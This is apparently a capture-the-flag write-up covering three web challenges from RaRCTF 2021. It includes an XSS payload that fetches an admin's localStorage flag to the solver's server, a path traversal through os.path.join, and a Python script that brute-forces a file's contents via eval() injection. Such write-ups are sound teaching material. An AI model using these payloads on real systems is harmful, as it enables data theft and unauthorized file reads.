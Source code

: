 ```yaml
---
title: "RaRCTF2021: Some simpler web probz"
date: 2021-08-09T13:49:21-07:00
draft: false
comments: false
images:
---
```


## Fancy Button Generator // FBG

A simple xss challenge with the slightest of twists: instead of stealing admin cookies, you're stealing admin's localstorage values. This was possible because the admin, which was a puppetteer chrome browser, was operating in no-sandbox mode. 

Insert as your payload:
```
title: eh
link: javascript:fetch('your.server?fleg='%2B(window.localStorage.getItem("flag")));

```

And report to admin. Careful with the wait times...

NOTE: I first-blooded this challenge before certain measures were implemented. There were some issues with FBG throughout the competition that involved the organizers making amendments and introducing a pow to help with the stability of the infrastructure. I'm not aware of how the solution would have looked with the accompanying pow, unfortunately. 

flag: `rarctf{th0s3_f4ncy_butt0n5_w3r3_t00_cl1ck4bl3_f0r_u5_a4667cb69f}`

## Secure Uploader 

In the provided source, observe this piece of code: 

```py
@app.route('/file/<id>')
def file(id):
    conn = db()
    cur = conn.cursor()
    cur.execute("select path from files where id=?", (id,))
    res = cur.fetchone()
    if res is None:
        return "File not found", 404
    with open(os.path.join("uploads/", res[0]), "r") as f:
        return (os.path.join("uploads/", res[0]))
```

python's `os.path.join` is a unique thing: its purpose is to concat the provided parameters, appending one after the other with a `/` character in between. As an example, `os.path.join('foo','bar')` would produce `foo/bar`. However, specify an absolute filepath as a parameter, and everything before that string will be erased. So, `os.path.join('foo', '/bar')` would produce just `/bar`. We can use this knowledge to provide to the challenge a filename such as `//flag` which will resolve to retrieve the flag kept in the root directory of the docker container hosting the challenge. 

flag: `rarctf{4lw4y5_r34d_th3_d0c5_pr0p3rly!-71ed16}`

## Maas 1: calculator
The first part of "Microservices as a Service" was a challenge that involved improper use of the python function `eval()`. 

In the provided source, we see some very interesting code in `arithmetic/app.py`:

```python
@app.route('/arithmetic', methods=["POST"])
def arithmetic():
    if request.form.get('add'):
        r = requests.get(f'http://arithmetic:3000/add?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('sub'):
        r = requests.get(f'http://arithmetic:3000/sub?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('div'):
        r = requests.get(f'http://arithmetic:3000/div?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    elif request.form.get('mul'):
        r = requests.get(f'http://arithmetic:3000/mul?n1={request.form.get("n1")}&n2={request.form.get("n2")}')
    result = r.json()
    print(result)
    res = result.get('result')
    if not res:
        return str(result.get('error'))
    try:
        res_type = type(eval(res))
        if res_type is int or res_type is float:
            return str(res)
        else:
            return "Result is not a number"
    except NameError:
        return "Result is invalid"
```

This would run when you perform any arithmetic action using the calculator. When using the calculator, if you try to do an addition formula like "1+1", the returned result isn't 2, but "11". Why is that?

The program passes your code into `eval()`, but the result of that `eval()` isn't returned anywhere. If the eval'd result was an integer, then the _string_ that was passed as a parameter to `eval()` would be returned, hence why "11" is returned as the result of "1+1". However, `eval()` is called nonetheless, and we can use this to our advantage.

First and foremost, if the result of the eval was a number (int or float), then the string is returned. Else, "Result is not a number" or "Result is invalid" is returned. We could use this as a boolean condition with the following string: 

```
eval("1 if (open('../flag.txt','r').read(-1).startswith('rarctf{')) else 'false'")
``` 

We can instead put this as our "arithmetic" equation. Since the POST request made to the endpoint requires 2 params to be operated on, "n1" and "n2", split this statement into 2 arbitrary halves and put 1 half into the "n1" param, and the other into the "n2" param.

What this does is it calls `eval()` once more, but in this 2nd call we have more freedom to stipulate what can be evaluated. The param to the inner `eval` is just an if statement that returns the integer `1` if `(open('../flag.txt','r').read(-1).startswith('rarctf{'))` returns the boolean value true, or returns the string `'false'` if the statement returns the boolean value false. 

Therefore, if the contents of `flag.txt` start with the prefix "rarctf{", then the `eval()` functions will return 1, and the maas program would return the whole string as a result. If it doesn't start with that prefix, then the `eval()` functions would return the string 'false' and the if statement that checks the `res_type` would not return our string. From here, we can just continue to add characters to the prefix to brute-force the value of the flag that way: if we get back our string, then the character we guessed is in the flag. If we get back either "Result is not a number" or "Result is invalid" (or just if the response text has the keyword "Result"), then the character we guessed is not in the flag.

```py
import requests

url = "https://maas.rars.win/calculator"

alphabet = 'abcdefghijklmnopqrstuvwxyz1234567890_-{}'

prefix = 'rarctf{'

#I just chose 40 arbitrarily. If the flag was longer, I would have increased the range.
for index in range(0, 40):
    for c in alphabet:
        #our string. We will bruteforce the flag character by character. By convention, we at least know the flag starts with 'rarctf{'
        req = "eval(\"1 if (open('../flag.txt','r').read(-1).startswith('" + prefix + c + "')) else 'false'\""
        #I split the string between the n1 and n2 params arbitrarily. It doesnt matter how you split them.
        data = {"mode": "arithmetic", "n1": req, "add": "+", "n2": ")"}
        resp = requests.post(url, data)
        #if we dont find the word "Result" in the response to our request above, then that means the character we guessed is in the flag!
        if (resp.text.find("Result") == -1) and (resp.status_code != 500):
            prefix += c
            print(prefix)
            continue
```

flag: `rarctf{0v3rk1ll_4s_4_s3rv1c3_3fca0faa}`

part 2: coming soon :)

**Vie**
